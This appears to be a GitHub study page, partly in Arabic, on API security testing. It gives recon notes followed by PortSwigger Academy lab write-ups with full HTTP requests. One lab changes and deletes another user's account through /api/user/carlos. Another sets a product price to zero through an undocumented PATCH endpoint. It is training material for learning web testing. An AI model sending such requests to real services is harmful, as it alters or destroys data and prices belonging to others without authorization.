 # API testing

- <details>
     <summary>API Recon & documentation</summary>


  # 🛡️ API Testing - شرح مبسط
  
  ## 📌 ما هو **API Testing**؟
  - **API (Application Programming Interface)** هو الوسيط الذي يسمح للبرامج أو السيرفرات بالتواصل مع بعضها.
  - أي موقع ديناميكي (dynamic) يتكون من APIs:
    - مثال: عند تسجيل الدخول **login** → API تستقبل الـ username/password.
    - مثال: عند جلب **profile info** → API تسحب البيانات من قاعدة البيانات وتعيدها في صورة JSON.
  
  ⚠️ إذا كانت الـ API بها ثغرة → هذا قد يؤثر على **Confidentiality, Integrity, Availability (CIA)**.
  
  ---
  
  ## 📌 العلاقة بين Web Testing و API Testing
  - معظم ثغرات الويب (SQLi, XSS, Auth bypass) يمكن أن تظهر في APIs.
  - الفرق أن **API Testing** يكشف أحيانًا Endpoints غير مستخدمة في الواجهة الأمامية (front-end)، لكنها مدعومة على السيرفر → توسع الـ attack surface.
  
  ---
  
  ## 📌 خطوات الـ Recon (استكشاف API)
  
  ### 1. **Identify Endpoints** (تحديد الـ endpoints)
  الـ endpoint هو مكان استقبال الطلبات.
  
  مثال:
  ```http
  GET /api/books HTTP/1.1
  Host: example.com
  ```
  
  - `/api/books` → endpoint  
  - يعيد قائمة من الكتب
  
  مثال آخر:
  - `/api/books/mystery` → يعيد قائمة بكتب الغموض
  
  ---
  
  ### 2. **افهم كيفية التعامل مع الـ API**
  لكي تبدأ اختبار يجب أن تعرف:
  - ✅ الـ input parameters (إجباري / اختياري)  
  - ✅ الـ HTTP methods المدعومة (GET, POST, PUT, DELETE…)  
  - ✅ الـ media formats (JSON, XML)  
  - ✅ هل يوجد Rate limiting (عدد الطلبات المسموح بها)  
  - ✅ آلية Authentication (Token / API Key / JWT)  
  
  ---
  
  ## 📌 API Documentation (التوثيق)
  - **Human-readable**: توثيق مكتوب يشرح الأمثلة والاستخدام.  
  - **Machine-readable**: ملفات JSON/XML (مثل Swagger أو OpenAPI).  
  
  🔍 **أماكن شائعة للتوثيق**:
  - `/api`
  - `/swagger/index.html`
  - `/openapi.json`
  
  مثال: لو وجدت `/api/swagger/v1/users/123`  
  جرب أيضًا:
  - `/api/swagger/v1`  
  - `/api/swagger`  
  - `/api`  
  
  🛠 يمكنك استخدام **Burp Scanner** أو **Intruder** لتجربة common paths.
  
  ---
  
  ## 📌 الخلاصة
  - **API Testing = Web Testing + Hidden attack surface**
  - تبدأ بالـ **Recon**: ابحث عن endpoints + documentation  
  - افهم كيف تعمل الـ API (inputs, methods, auth)  
  - ثم اختبر الثغرات مثل:
    - **SQLi داخل JSON**
    - **Auth bypass بالـ tokens**
    - **Server-side Parameter Pollution (SSPP)**
    - **Excessive Data Exposure** (إرجاع بيانات حساسة/زائدة)
  

  
  </details>





- <details>
     <summary>Interacting with API endpoints</summary>

     
     
     # 🛡️ API Testing 
     
     ## 1️⃣ Machine-readable Documentation (التوثيق القابل للمعالجة آليًا)
     - أحيانًا بتلاقي توثيق API في شكل **JSON / YAML** (زي Swagger أو OpenAPI).  
     - تقدر تستخدم Tools عشان تحللها أو تختبر الـ endpoints مباشرة.  
     
     🛠 الأدوات:
     - **Burp Scanner** → يقرأ OpenAPI docs ويعمل crawl & audit  
     - **OpenAPI Parser BApp** → تحليل OpenAPI داخل Burp Suite  
     - **Postman / SoapUI** → لاختبار الـ endpoints يدويًا أو أوتوماتيك  
     
     ---
     
     ## 2️⃣ Identifying API Endpoints (تحديد الـ endpoints)
     - حتى لو عندك documentation، لازم تراجع التطبيق بنفسك:  
       - ساعات الـ documentation قديمة أو ناقصة  
       - من خلال التطبيق نفسه ممكن تلاقي endpoints غير مذكورة  
     
     👀 أماكن محتملة للـ Endpoints:
     - **/api/** في الـ URLs  
     - **JavaScript files** → ممكن تحتوي API calls مخفية  
     - **Burp Scanner** → يلتقط بعض الـ endpoints  
     - **JS Link Finder BApp** → استخراج أعمق من ملفات JS  
     
     ---
     
     ## 3️⃣ Interacting with Endpoints (التفاعل مع الـ endpoints)
     - استخدم الأدوات:  
       - **Burp Repeater** → تجربة يدوية  
       - **Burp Intruder** → تجربة أوتوماتيكية  
     
     💡 جرب تغيّر:
     - **HTTP method** (GET, POST, PUT…)  
     - **Media type** (JSON, XML…)  
     - راقب **error messages** → ممكن تكشف تفاصيل عن الباك اند أو باراميترات إضافية  
     
     ---
     
     ## 4️⃣ Identifying Supported HTTP Methods
     - الـ **HTTP Method** يحدد نوع العملية:  
       - `GET` → جلب البيانات  
       - `PATCH` → تعديل جزئي  
       - `OPTIONS` → يكشف الـ methods المدعومة  
     
     👨‍💻 مثال على endpoint:
     ```
     GET /api/tasks        → يرجع قائمة المهام  
     POST /api/tasks       → ينشئ مهمة جديدة  
     DELETE /api/tasks/1   → يحذف مهمة برقم 1  
     ```
     
     🛠 Burp Intruder:
     - يحتوي على قائمة HTTP verbs جاهزة  
     - جربها تلقائيًا على endpoint لكشف methods إضافية  
     
     ⚠️ مهم: جرب على بيانات **قليلة الأهمية (low-priority)** لتجنب كسر أو تغيير بيانات production  
     
     ---
     
     ## 5️⃣ Identifying Supported Content Types (أنواع المحتوى)
     - الـ API غالبًا بتتوقع نوع محتوى محدد مثل `application/json`  
     - تغيير الـ Content-Type ممكن يفتح هجوم جديد  
     
     👀 الفوائد:
     - Trigger أخطاء تكشف معلومات  
     - Bypass دفاعات ضعيفة  
     - استغلال اختلاف المعالجة (مثال: آمن مع JSON لكن ضعيف مع XML)  
     
     🛠 Burp:
     - غيّر Header:
       ```http
       Content-Type: application/xml
       ```
     - وحوّل الـ body من JSON إلى XML  
     - **Content Type Converter BApp** يساعد في التحويل التلقائي بين JSON ↔ XML  
     
     ---
     
     ## 📌 الخلاصة
     - 📑 لو لقيت **Machine-readable docs** → حللها بالأدوات (Burp Scanner, Postman)  
     - 🔍 حتى مع docs → دايمًا اعمل Recon يدوي (URLs + JS files)  
     - 🎯 جرّب تتفاعل مع endpoints (HTTP methods, Content types)  
     - ⚡ الهدف: اكتشاف وظائف إضافية + ثغرات (SQLi, Auth bypass, Injection …)
     



     
  </details>































































































----




# **`API Testing Labs`**


<details>
     <summary>Lab: Exploiting an API endpoint using documentation</summary>

#### 1. login with **`wiener : peter`**
#### 2. try to update your email and intercept the request

```http
PATCH /api/user/wiener HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"wiener",
  "email":"user@EXAMPLE.com"
}
```

---

> ## what if we change user


```http
PATCH /api/user/carlos HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"plapla@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"carlos",
  "email":"plapla@EXAMPLE.com"
}
```


> ## now try to change method from **`patch`** to **`DELETE`**

```http
DELETE /api/user/carlos HTTP/2
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "status":"user deleted"
}
```


> ## if we set path to **`/api`**

<img width="952" height="699" alt="image" src="https://github.com/user-attachments/assets/49f6beef-4bee-4ed1-a971-259b69a08f35" />


     
</details>




<details>
     <summary>Lab: Finding and exploiting an unused API endpoint</summary>

> 1. login as **`wiener : peter`**
> 2. select product and see the request


```http
GET /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 97


{
  "price":"$1337",
  "message":"Buy quick, we are low on stock! 4 purchased in the last 14 minutes!"
}
```

---

> ## first try **`OPTIONS`** header to see which methods are allowed


```http
OPTIONS /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

> ## found that **`GET, PATCH`** only allowd
> - now change method to **``PATCH``**


```
```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```

### **`response`**

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93


{
  "type":"ClientError",
  "code":400,
  "error":"Only 'application/json' Content-Type is supported"
}
```

> ## we found that content type must be json we will add this header
> - **`Content-Type: application/json`**
> - add json content with new price

```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json;

{
  "price":0
}


```

<img width="1434" height="540" alt="image" src="https://github.com/user-attachments/assets/bc003da5-54f5-49db-8f06-713ecb5022a1" />




     
</details>








































